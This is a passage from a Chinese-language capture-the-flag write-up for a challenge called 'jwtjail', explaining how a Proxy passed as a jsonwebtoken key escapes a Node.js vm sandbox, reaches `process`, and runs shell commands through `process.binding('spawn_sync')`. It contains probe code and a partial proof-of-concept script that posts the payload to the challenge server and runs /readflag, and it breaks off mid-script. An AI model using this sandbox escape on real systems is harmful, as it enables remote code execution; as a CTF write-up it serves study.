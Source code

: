 由于设置了`vm`的上下文为`Object.create(null)`，因此无法使用`this`的原型链获取v8上下文为vm外的Object。

首先注意到`jsonwebtoken`模块的`verify`函数，其第二个参数可以为`function`类型，调用时会传入若干object。但这个调用模式必须为异步调用，无法利用。

由于攻击必须拿到v8上下文为vm外的对象，考虑返回`Proxy`。构造万能代理如下:

```javascript
(() => {
  const c = (name, tar = {}) => new Proxy(
    tar,
    {
      apply: (...args) => {
        console.log(args)
      },
      get: (...args) => {
        console.log(args)
        if(args[1] === Symbol.toPrimitive) {
          return c(name + '.' + String(args[1]), () => {
            throw new Error()
          });
        }
        return c(name + '.' + String(args[1]));
      }
    }
  );
  return c('a', {});
})()
```

可以发现，返回的代理的`constructor.name.[Symbol.toPrimitive]`会被作为函数执行。其内部逻辑是在jsonwentoken模块试图将返回的Proxy生成key时，类型不匹配抛出错误，而生成错误文本时会试图读取类名称。对于Proxy的apply钩子，其第三个参数为调用者传入的参数列表，这个列表的v8上下文并不在vm内，从而可以返回`process`对象。使用`process.binding`即可做到shell任意命令执行。

由于使用的docker镜像为alpine版本，没有curl，让笔者误以为环境不出网，从而需要解决回显问题。而这可以通过污染`{}.__proto__.toJSON`完成。最终PoC脚本如下:

```javascript
const endpoint = `https://jwtjail-fcf2ebccc5f50f79.mc.ax`
const jwt = require('jsonwebtoken')
// const endpoint = `http://localhost:12345`

const token = jwt.sign({}, 'a')

fetch(endpoint + `/api/verify`, {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: new URLSearchParams({
    token: `'${token}'`,
    secretOrPrivateKey: `
(() => {
  const c = (name, tar = {}) => new Proxy(
    tar,
    {
      apply: (...args) => {
        try {
          const process = args[2].constructor.constructor.constructor('return process')()
          const flag = process
            .binding('spawn_sync')
            .spawn({
              maxBuffer: 1048576,
              shell: true,
              args: [ '/bin/sh', '-c', "/readflag" ],
              cwd: undefined,
              detached: false,
              envPairs: ['PWD=/'],
              file: '/bin/sh',
```